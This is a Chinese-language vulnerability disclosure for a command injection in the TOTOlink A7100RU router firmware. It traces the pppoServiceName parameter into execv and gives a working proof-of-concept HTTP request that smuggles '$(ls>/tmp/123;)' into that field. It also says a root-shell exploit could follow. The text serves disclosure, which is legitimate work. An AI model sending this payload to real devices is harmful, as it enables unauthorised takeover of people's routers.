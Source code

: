 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps37.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720200049764](img/image-20220720200049764.png)

程序通过获取pppoServiceName参数中的内容传递给v4，之后将v4带入到Uci_Set_Str_By_Idx函数中

![image-20220720200109605](img/image-20220720200109605.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220720200129609](img/image-20220720200129609.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720200145120](img/image-20220720200145120.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"pppoServiceName":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps38.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps39.png) 

 